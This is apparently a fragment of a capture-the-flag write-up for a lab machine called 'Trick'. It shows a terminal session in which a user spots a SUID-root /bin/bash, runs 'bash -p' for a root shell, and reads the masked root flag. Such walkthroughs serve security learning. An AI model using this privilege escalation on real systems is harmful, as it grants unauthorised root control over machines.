 ```terminal
michael@trick:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash
michael@trick:~$ bash -p
bash-5.0# whoami
root
bash-5.0# ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user.txt  Videos
bash-5.0# cd /
bash-5.0# ls
bin   etc         initrd.img.old  lib64       media  proc  sbin  tmp  vmlinuz
boot  home        lib             libx32      mnt    root  srv   usr  vmlinuz.old
dev   initrd.img  lib32           lost+found  opt    run   sys   var
bash-5.0# cd root
bash-5.0# ls
f2b.sh  fail2ban  root.txt  set_dns.sh
bash-5.0# cat root.txt
7*************************4
bash-5.0#
```

![Achivments](https://media.discordapp.net/attachments/740245586095112242/1011152624709550153/unknown.png?width=635&height=580 "Achivments")

